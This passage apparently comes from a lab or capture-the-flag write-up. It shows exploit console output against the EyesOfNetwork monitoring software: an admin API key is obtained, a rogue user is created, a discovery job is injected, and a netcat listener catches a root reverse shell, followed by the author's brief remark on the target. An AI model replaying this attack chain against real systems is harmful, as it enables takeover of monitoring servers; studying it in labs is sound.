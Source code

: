 \[\*\] EyesOfNetwork login page found
\[\*\] EyesOfNetwork API page found. API version: 2.4.2
\[+\] Admin user key obtained: 4666f98686b0e37382df1549cd803bc55777c73b6e75266399d0c32a1ad5cfbd
\[+\] New user test successfully created. ID:3
\[+\] Successfully authenticated
\[+\] Discovery job successfully created with ID: 3&review=1" id="completemsg" style="display: none;">
<div class="roundedcorner\_success\_box">
<div class="roundedcorner\_success\_top"><div></div></div>
<div class="roundedcorner\_success\_content">
              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              </div>
<div class="roundedcorner\_success\_bottom"><div></div></div>
</div></a>
\[\*\]  Spawning netcat listener: 
listening on \[10.0.2.15\] 443 ...
connect to \[10.0.2.15\] from (UNKNOWN) \[10.0.2.6\] 40010
sh: no job control in this shell
sh-4.2# exit
exit
exit

\[\*\] Job 3&review=1" id="completemsg" style="display: none;">
<div class="roundedcorner\_success\_box">
<div class="roundedcorner\_success\_top"><div></div></div>
<div class="roundedcorner\_success\_content">
              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              </div>
<div class="roundedcorner\_success\_bottom"><div></div></div>
</div></a> removed

It looks like an infrastructure monitoring service, which I guess makes sense with a name like Eyes of Network:

![](images/dashboard-1024x332.png)
